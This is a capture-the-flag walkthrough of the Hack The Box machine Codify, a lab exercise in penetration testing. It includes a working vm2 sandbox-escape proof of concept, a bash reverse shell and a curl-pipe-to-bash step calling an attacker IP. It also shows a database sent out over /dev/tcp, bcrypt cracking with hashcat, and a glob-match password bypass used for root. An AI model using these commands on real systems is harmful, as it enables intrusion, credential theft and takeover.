






# Codify


Machine: [https://app.hackthebox.com/machines/Codify](https://app.hackthebox.com/machines/Codify)

Created by: [kavigihan](https://app.hackthebox.com/users/389926)

Difficulty: Easy

OS: Linux

## Machine Info

Codify is an easy Linux machine that features a web application that allows users to test `Node.js` code. The application uses a vulnerable `vm2` library, which is leveraged to gain remote code execution. Enumerating the target reveals a `SQLite` database containing a hash which, once cracked, yields `SSH` access to the box. Finally, a vulnerable `Bash` script can be run with elevated privileges to reveal the `root` user's password, leading to privileged access to the machine.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/codify$ nmap -sV -sC -oN codify_nmap_sv_sc.log 10.10.11.239
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 23:29 PDT
Nmap scan report for 10.10.11.239
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http        Node.js Express framework
|_http-title: Codify
8080/tcp open  http-proxy?
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 283.59 seconds
```
Nmap scan reveals three open TCP ports.

- 22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80/tcp   open  http        Apache httpd 2.4.52
- 3000/tcp open  http        Node.js Express framework

Nmap scan also tells us that port 80 redirects to `http://codify.htb/`. We add that to `/etc/hosts`.

```shell
labadmin@labmachine:~/codify$ sudo bash -c 'echo "10.10.11.239  codify.htb" >> /etc/hosts'
 ```

### Web server

Now we navigate to `http://codify.htb`.



It loads a web application that provides a utility to test Node.js code. Clicking the `Try it now` button takes us to a web page where we can enter and run Node.js code.



Clicking the `About us` takes us to a new page. Here we get the knowledge that they use [vm2 - version 3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16) that is a tool for sandboxing JavaScript.



The first page had a link to `Limitations` as well. On this page we are told they have restricted modules to ensure the security of the platform and its users.



## Foothold

Searching the internet, we find the following vulnerability for `vm2` version `3.9.16`. [NIST - CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547). There is a vulnerability in exception sanitization, allowing attackers to raise an unsanitized host exception inside `handleException()` which can be used to escape the sandbox and run arbitrary code in host context.

We also find this [CVE-2023-30547 - Proof of Concept](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

To achieve remote code execution with this JavaScript we need to change the `touch pwned` to the command we like to execute. For example `id`. Running the code with `id` we will get `svc` user.

`uid=1001(svc) gid=1001(svc) groups=1001(svc)`



We can use this to get a reverse shell.

First, locally, we create a bash script with a callback to our local machine.

Note: If you use openvpn connection to HTB the IP is under the tun0 interface.

```shell
labadmin@labmachine:~/codify$ echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.85/6000 0>&1' > rev.sh

labadmin@labmachine:~/codify$ cat rev.sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.85/6000 0>&1
```

Next we start a local python web server to host the script.

```bash
labadmin@labmachine:~/codify$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we start a local Netcat listener which will catch the reverse shell once our script has been executed and connect from target host. The port must be same as we defined in the reverse shell script.

```shell
labadmin@labmachine:~/codify$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```

Now we update the PoC script, instead of id we use curl to fetch the script and execute it by pipe it to bash.

'curl http://10.10.14.85:8000/rev.sh|bash'



Success, we got connection back to our Netcat listener as svc user.

```shell
labadmin@labmachine:~/codify$ nc -lvnp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.239 49612
sh: 0: can't access tty; job control turned off
$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

To get a more stable shell, we run the script command to create a new PTY.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@codify:~$
```

There is nothing interesting in home folder of svc.

```shell
svc@codify:~$ pwd
pwd
/home/svc
svc@codify:~$ ls -l
ls -l
total 0
-rw-r--r-- 1 svc svc 0 Apr 13 11:07 pwned
svc@codify:~$ cat pwned
cat pwned
```

We `cat /etc/passwd` and find another user named `joshua` and we probably need to pivot to this user.

```shell
svc@codify:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[OMITTED]
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
[OMITTED]
```

## Lateral Movement

Searching through the web directories `/var/www` we discover a SQLite database file in `/var/www/contact` directory.

```shell
svc@codify:/var/www/contact$ pwd
pwd
/var/www/contact
svc@codify:/var/www/contact$ file tickets.db
file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

We will transfer the database to our local machine. For this we use Netcat to start a listener and redirect it to file.

```shell
labadmin@labmachine:~/codify$ nc -lnvp 6001 > tickets.db
Listening on 0.0.0.0 6001
```

On the target host we cat tickets.db file and redirect its contents to `/dev/tcp/10.10.14.85/6001`. This is not a file but to instruct the kernel to create a TCP connection to the specified IP and port and then write to it.

```shell
svc@codify:/var/www/contact$ cat tickets.db > /dev/tcp/10.10.14.85/6001
cat tickets.db > /dev/tcp/10.10.14.85/6001
```

We now have the file on our local machine.

```shell
labadmin@labmachine:~/codify$ nc -lnvp 6001 > tickets.db
Listening on 0.0.0.0 6001
Connection received on 10.10.11.239 58584

labadmin@labmachine:~/codify$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17

labadmin@labmachine:~/codify$
```

To work with the database file we use `sqlite3`.

```shell
labadmin@labmachine:~/codify$ sqlite3 tickets.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite>
```

The sqlite3 command to list the tables are `.tables`

```shell
sqlite> .tables
tickets  users
```

There is a table named users which can contain credentials. We dump the content with `select statement.

```shell
sqlite> select * from users;
3|joshua|[OMITTED]
```

We get the hash for the user Joshua.

Grep for `$2` in hashcat help and we get that it is a `bcrypt` hash.

```shell
labadmin@labmachine:~/codify$ hashcat --help | grep '$2'
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
```

We see in above output that bcrypt is hashcat hash-type 3200 and can be cracked with using `-m 3200` option.

To crack it we need to write the hash into a file and then execute hashcat with it. The hash is the string starting with `$2a$...`. In other words, we shall not enter `3|joshua|` into the file.

```shell
labadmin@labmachine:~/codify$ echo '[OMITTED]' > joshua.hash
```

We now crack the hash using hashcat with rockyou.txt word list.

```shell
labadmin@labmachine:~/codify$ hashcat -a 0 -m 3200 joshua.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

[OMITTED]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[OMITTED]:[OMITTED]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Sat Apr 13 05:35:22 2024 (1 min, 26 secs)
Time.Estimated...: Sat Apr 13 05:36:48 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       16 H/s (3.56ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1360/14344385 (0.01%)
Rejected.........: 0/1360 (0.00%)
Restore.Point....: 1344/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: teacher -> 080808

Started: Sat Apr 13 05:34:48 2024
Stopped: Sat Apr 13 05:36:49 2024
```

The password is cracked and we use it to SSH to the server as joshua.

```shell
labadmin@labmachine:~/codify$ ssh joshua@10.10.11.239
The authenticity of host '10.10.11.239 (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.239' (ED25519) to the list of known hosts.
joshua@10.10.11.239's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Apr 13 12:40:11 PM UTC 2024

  System load:                      0.00146484375
  Usage of /:                       63.7% of 6.50GB
  Memory usage:                     26%
  Swap usage:                       0%
  Processes:                        240
  Users logged in:                  1
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:6603


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr 13 12:15:37 2024 from 10.10.15.39
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

We now find the user.txt in home directory and we get the flag by cat the file.

```shell
joshua@codify:~$ pwd
/home/joshua
joshua@codify:~$ ls -la
total 32
drwxrwx--- 3 joshua joshua 4096 Nov  2 12:22 .
drwxr-xr-x 4 joshua joshua 4096 Apr 13 11:31 ..
lrwxrwxrwx 1 root   root      9 May 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua  220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 joshua joshua 3771 Apr 21  2023 .bashrc
drwx------ 2 joshua joshua 4096 Sep 14  2023 .cache
-rw-r--r-- 1 joshua joshua  807 Apr 21  2023 .profile
-rw-r----- 1 root   joshua   33 Apr 13 10:51 user.txt
-rw-r--r-- 1 joshua joshua   39 Sep 14  2023 .vimrc
joshua@codify:~$ cat user.txt
[OMITTED]
```

## Privilege Escalation

List user privileges for joshua and we see that we can execute the backup.sh script as root.

```shell
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

The script looks as follow.

```shell
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The script will

- Sets up variables for the database user `DB_USER`, retrieves the database password from a file `DB_PASS` and specifies the backup directory `BACKUP_DIR`.
- Prompts the user to enter the `MySQL` password for the database user and store in `USER_PASS`, compare `USER_PASS` with the one retrieved from the file `DB_PASS` and exit if they do not match.
- Creates the backup directory if it doesn't exist. Retrieves a list of databases from the MySQL server, excluding system databases (information_schema, performance_schema), using the provided user 
credentials. Iterates through the list of databases and dumps them using `mysqldump`, afterwards 
compressing the output and saving it as a gzip file in the backup directory.
= Changes the permissions of the backup directory to be owned by `root:sys-adm` and sets the 
permissions to `774` recursively. Prints a message indicating that the backup process is complete.

We notice two flaws in the script.

One is in the way it compares the user-provided password with the real password. Since the right-side comparison variable is not quoted, this will allow us to do pattern matching. This is due to the use of 
`==` inside `[[ ]]` in Bash, which performs pattern matching rather than a direct string comparison.

To illustrate, suppose the actual password `DB_PASS` is `Passw0rd` and the user inputs 
`*` as their password `USER_PASS`. Then the pattern match will be evaluated as true because `*` matches any string.

The second flaw is in the way the password is passed to `mysqldump`. This is not the user provided password but the password taken from the credential file `/root/.creds`. This means that if we bypass the password check through the pattern matching bypass above, then we will not only be able to run the rest of the script normally, but also view the real password by using a process snooping tool such as `pspy`. To be able to view the real password, we will need two `SSH` sessions. One to run `pspy` and one to run the script.

First we download the script to our local machine.

```shell
labadmin@labmachine:~/codify$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
```

Then we start a python server to host the file.

```shell
labadmin@labmachine:~/codify$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

Now we fetch the binary to the target machine.

```shell
joshua@codify:~$  wget http://10.10.14.85:8001/pspy64s
--2024-04-13 13:09:53--  http://10.10.14.85:8001/pspy64s
Connecting to 10.10.14.85:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1156536 (1.1M) [application/octet-stream]
Saving to: ‘pspy64s’

pspy64s                                      100%[==================================================================================================>]   1.10M   446KB/s    in 2.5s

2024-04-13 13:09:56 (446 KB/s) - ‘pspy64s’ saved [1156536/1156536]

joshua@codify:~$
```

Next we change the file permission to make it executable and execute it.

```shell
joshua@codify:~$ chmod +x pspy64s
joshua@codify:~$ ./pspy64s
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/04/13 13:11:59 CMD: UID=0    PID=99     |
2024/04/13 13:11:59 CMD: UID=0    PID=98     |
2024/04/13 13:11:59 CMD: UID=0    PID=97     |
2024/04/13 13:11:59 CMD: UID=0    PID=96     |
...
```

Now, in the second SSH session we run the script and provide `*` as password.

```shell
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
joshua@codify:~$
```

And we see the `mysqldump` command being triggered in the `pspy` output, together with the password in plain text.

```shell
2024/04/13 13:16:20 CMD: UID=0    PID=3371   | /bin/bash /opt/scripts/mysql-backup.sh
2024/04/13 13:16:20 CMD: UID=0    PID=3370   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -[OMITTED] sys
```

We try the password to login as root user.

```shell
joshua@codify:~$ su root
Password:
root@codify:/home/joshua#
```

Success, and we find the `root.txt` in `/root`

```shell
root@codify:/home/joshua# cd /root/
root@codify:~# ls -l
total 8
-rw-r----- 1 root root   33 Apr 13 10:51 root.txt
drwxr-xr-x 4 root root 4096 Sep 12  2023 scripts
root@codify:~# cat root.txt
[OMITTED]
```
